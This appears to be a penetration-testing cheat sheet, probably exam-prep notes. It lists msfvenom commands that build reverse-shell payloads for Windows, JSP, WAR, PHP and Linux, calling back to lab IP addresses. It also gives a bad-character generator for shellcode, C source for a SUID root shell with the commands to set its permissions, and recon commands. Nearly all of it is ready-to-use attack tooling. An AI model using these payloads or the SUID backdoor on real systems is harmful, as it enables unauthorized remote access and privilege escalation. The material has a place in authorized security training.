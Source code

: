 # Generate msfvenom shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.41 LPORT=9001 -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -n 16 -f python`

`msfvenom -p windows/shell_reverse_tcp -f exe-service -o payload.exe LHOST=10.11.0.41 LPORT=9001`
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=443 -f raw > shell.jsp`
`msfvenom -p java/shell_reverse_tcp LHOST=10.11.0.41 LPORT=443 -f war > reverse_shell.war`
`msfvenom -p php/reverse_php LHOST=10.11.0.33 LPORT=443 > /var/www/html/evil.txt`
`msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f elf > staged-shell.elf`
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f elf > non-staged-shell.elf`

# Generate bad characters
```python
#!/user/bin/python
import sys
for x in range(0,256):
    sys.stdout.write("\\x" + '{:02x}'.format(x))
```

# SUID0 Binary

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system("/bin/bash");
}
```

# Mark binary as SUID0
`chown root:root /dev/shm/suid-shell ; chmod 7775 /dev/shm/suid-shell`

# Recursive icacls search with powershell
`Get-ChildItem C:\temp\ -Recurse | Get-Acl | grep "Everyone"`

# AutoRecon
`python3 /opt/AutoRecon/src/autorecon.py -ct 2 -cs 2 -t TARGET_FILE --only-scans-dir`

